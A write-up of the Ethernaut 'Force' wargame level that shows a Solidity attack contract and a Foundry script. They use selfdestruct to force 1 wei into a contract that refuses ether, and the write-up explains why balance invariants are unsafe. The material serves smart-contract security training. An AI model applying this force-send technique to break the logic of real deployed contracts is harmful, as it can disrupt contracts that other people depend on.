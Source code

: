 # Level 7 - Force ⏺⏺⏺

{% embed url="https://ethernaut.openzeppelin.com/level/7" %}

### Level Setup

{% hint style="info" %}
Some contracts will simply not take your money `¯\_(ツ)_/¯`

The goal of this level is to make the balance of the contract greater than zero.

&#x20; Things that might help:

* Fallback methods
* Sometimes the best way to attack a contract is with another contract.
* See the ["?"](https://ethernaut.openzeppelin.com/help) page above, section "Beyond the console"
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/a89c8f7832258655c09fde16e6602c78e5e99dbd/contracts/src/levels/Force.sol" %}

{% code lineNumbers="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```
{% endcode %}

### Exploit

The exploit uses `selfdestruct` to force funds to be sent to the contract.

1. Create an attack contract that contains funds (`1 wei`) which is then force sent to the target contract using `selfdestruct`.

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-7

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-7

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Contract" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/src/Level7.sol" %}

{% code title="src/Level7.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

// ================================================================
// │                        LEVEL 7 - FORCE                       │
// ================================================================
contract Selfdestruct {
    function attack(address _targetContractAddress) public payable {
        selfdestruct(payable(_targetContractAddress));
    }
}
```
{% endcode %}
{% endtab %}

{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/script/Level7.s.sol" %}

{% code title="script/Level7.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";
import {Selfdestruct} from "../src/Level7.sol";

// ================================================================
// │                          LEVEL 7 - FORCE                     │
// ================================================================
contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();

        vm.startBroadcast();
        Selfdestruct targetContract = new Selfdestruct();
        targetContract.attack{value: 1 wei}(targetContractAddress);
        vm.stopBroadcast();
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

2. Submit instance... 🥳

### Completion Message

{% hint style="info" %}
In solidity, for a contract to be able to receive ether, the fallback function must be marked `payable`.

However, there is no way to stop an attacker from sending ether to a contract by self destroying. Hence, it is important not to count on the invariant `address(this).balance == 0` for any contract logic.
{% endhint %}

### Notes

{% embed url="https://eips.ethereum.org/EIPS/eip-6780" %}

{% embed url="https://github.com/nvnx7/ethernaut-openzeppelin-hacks/blob/e936301859334383d568a614084917100319205e/level_7_Force.md" %}
